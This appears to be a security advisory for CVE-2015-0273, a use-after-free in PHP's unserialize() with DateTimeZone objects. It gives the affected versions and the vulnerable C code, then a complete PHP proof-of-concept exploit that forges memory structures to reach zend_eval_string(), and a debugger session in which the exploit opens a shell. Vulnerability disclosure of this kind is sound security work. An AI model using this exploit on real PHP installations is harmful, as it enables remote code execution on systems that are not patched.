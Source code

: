 ### Use After Free Vulnerability in unserialize() with DateTime* [CVE-2015-0273]
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.1.29 - Release Date: 2015.2.20
 
> A use-after-free vulnerability was discovered in unserialize() with DateTime/DateTimeZone objects's __wakeup() magic method that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.6  
Affected is PHP 5.5 < 5.5.22  
Affected is PHP 5.4 < 5.4.38  
Affected is PHP 5.3 <= 5.3.29

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` c
static int php_date_initialize_from_hash(php_date_obj **dateobj, HashTable *myht)
{
	zval             *z_date;
	zval             *z_timezone;
	zval             *z_timezone_type;
	zval              tmp_obj;
	timelib_tzinfo   *tzi;
	php_timezone_obj *tzobj;

	z_date = zend_hash_str_find(myht, "date", sizeof("data")-1);
	if (z_date) {
		convert_to_string(z_date);
		z_timezone_type = zend_hash_str_find(myht, "timezone_type", sizeof("timezone_type")-1);
		if (z_timezone_type) {
			convert_to_long(z_timezone_type);
			z_timezone = zend_hash_str_find(myht, "timezone", sizeof("timezone")-1);
			if (z_timezone) {
				convert_to_string(z_timezone);

...

static int php_date_timezone_initialize_from_hash(zval **return_value, php_timezone_obj **tzobj, HashTable *myht TSRMLS_DC)
{
	zval            **z_timezone = NULL;
	zval            **z_timezone_type = NULL;
 
	if (zend_hash_find(myht, "timezone_type", 14, (void**) &z_timezone_type) == SUCCESS) {
		if (zend_hash_find(myht, "timezone", 9, (void**) &z_timezone) == SUCCESS) {
			convert_to_long(*z_timezone_type);
			if (SUCCESS == timezone_initialize(*tzobj, Z_STRVAL_PP(z_timezone) TSRMLS_CC)) {
				return SUCCESS;
			}
		}
	}
	return FAILURE;
}
```
 
The convert_to_long() leads to the ZVAL and all its children is freed from memory. However the unserialize() code will still allow to use R: or r: to set references to that already freed memory. There is a use after free vulnerability, and allows to execute arbitrary code.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

``` php
<?php

$f = $argv[1];
$c = $argv[2];

$fakezval1 = ptr2str(0x100b83008);
$fakezval1 .= ptr2str(0x8);
$fakezval1 .= "\x00\x00\x00\x00";
$fakezval1 .= "\x06";
$fakezval1 .= "\x00";
$fakezval1 .= "\x00\x00";

$data1 = 'a:3:{i:0;O:12:"DateTimeZone":2:{s:13:"timezone_type";a:1:{i:0;i:1;}s:8:"timezone";s:3:"UTC";}i:1;s:'.strlen($fakezval1).':"'.$fakezval1.'";i:2;a:1:{i:0;R:4;}}';

$x = unserialize($data1);
$y = $x[2];

// zend_eval_string()'s address
$y[0][0] = "\x6d";
$y[0][1] = "\x1e";
$y[0][2] = "\x35";
$y[0][3] = "\x00";
$y[0][4] = "\x01";
$y[0][5] = "\x00";
$y[0][6] = "\x00";
$y[0][7] = "\x00";

$fakezval2 = ptr2str(0x3b296324286624); // $f($c);
$fakezval2 .= ptr2str(0x100b83000);
$fakezval2 .= "\x00\x00\x00\x00";
$fakezval2 .= "\x05";
$fakezval2 .= "\x00";
$fakezval2 .= "\x00\x00";

$data2 = 'a:3:{i:0;O:12:"DateTimeZone":2:{s:13:"timezone_type";a:1:{i:0;i:1;}s:8:"timezone";s:3:"UTC";}i:1;s:'.strlen($fakezval2).':"'.$fakezval2.'";i:2;O:12:"DateTimeZone":2:{s:13:"timezone_type";a:1:{i:0;R:4;}s:8:"timezone";s:3:"UTC";}}';

$z = unserialize($data2);

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line, then any PHP code can be executed:

``` shell
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run uafpoc.php assert "system\('sh'\)==exit\(\)"
Process 13472 launched: '/usr/bin/php' (x86_64)
sh: no job control in this shell
sh-3.2$ php -v
PHP 5.5.14 (cli) (built: Sep  9 2014 19:09:25) 
Copyright (c) 1997-2014 The PHP Group
Zend Engine v2.5.0, Copyright (c) 1998-2014 Zend Technologies
sh-3.2$ exit
exit
Process 13472 exited with status = 0 (0x00000000) 
(lldb) 
```
